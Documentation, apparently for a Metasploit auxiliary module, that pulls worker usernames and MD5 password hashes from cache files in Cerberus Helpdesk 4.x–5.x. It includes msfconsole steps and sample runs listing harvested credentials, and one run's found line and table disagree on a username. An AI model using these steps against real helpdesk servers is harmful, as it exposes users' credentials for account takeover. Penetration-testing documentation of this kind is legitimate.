 ## Description

This module opens a `devblocks_cache---ch_workers` or `zend_cache---ch_workers` file which contains a
data structure with username and password hash (MD5) credentials.  The contents looks similar to JSON, however it is not.

## Vulnerable Application

This module has been verified against the following Cerberus Helpdesk versions:

1. Version 4.2.3 Stable (Build 925)
2. Version 5.4.4

However it may also work up to, but not including, version 6.7

Version 5.4.4 is available on [exploit-db.com](https://www.exploit-db.com/apps/882596e791e54529b29ecbc6f48a6cb7-cerb5-5_4_4.zip)

* of note, 5.4.4 has to be installed on a PRE php7 environment.

## Verification Steps

1. Start msfconsole
2. ```use auxiliary/gather/cerberus_helpdesk_hash_disclosure```
3. ```set rhosts [rhosts]```
4. ```run```

## Scenarios

### 4.2.3 using zend (not verbose)

  ```
    msf > use auxiliary/gather/cerberus_helpdesk_hash_disclosure
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > set rhosts 1.1.1.1
    rhosts => 1.1.1.1
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > run
    
    [-] Invalid response received for 1.1.1.1    for /storage/tmp/devblocks_cache---ch_workers
    [+] Found: admin:aaa34a6111abf0bd1b1c4d7cd7ebb37b
    [+] Found: example:112302c209fe8d73f502c132a3da2b1c
    [+] Found: foobar:0d108d09e5bbe40aade3de5c81e9e9c7
    
    Cerberus Helpdesk User Credentials
    ==================================
    
     Username                     Password Hash
     --------                     -------------
     admin                        aaa34a6111abf0bd1b1c4d7cd7ebb37b
     example                      112302c209fe8d73f502c132a3da2b1c
     foobar                       0d108d09e5bbe40aade3de5c81e9e9c7
    
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

### 5.4.4 using devblocks

  ```
    msf > use auxiliary/gather/cerberus_helpdesk_hash_disclosure 
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > set rhosts 192.168.2.45
    rhosts => 192.168.2.45
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > set targeturi /cerb5/
    targeturi => /cerb5/
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > set verbose true
    verbose => true
    msf auxiliary(cerberus_helpdesk_hash_disclosure) > run
    
    [*] Attempting to load data from /cerb5/storage/tmp/devblocks_cache---ch_workers
    [+] Found: bar@none.com:37b51d194a7513e45b56f6524f2d51f2
    [+] Found: foo@none.com:acbd18db4cc2f85cedef654fccc4a4d8
    [+] Found: mike@shorebreaksecurity.com:18126e7bd3f84b3f3e4df094def5b7de
    
    Cerberus Helpdesk User Credentials
    ==================================
    
     Username                     Password Hash
     --------                     -------------
     bar@none.com                 37b51d194a7513e45b56f6524f2d51f2
     foo@none.com                 acbd18db4cc2f85cedef654fccc4a4d8
     admin@example.com            18126e7bd3f84b3f3e4df094def5b7de
    
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```
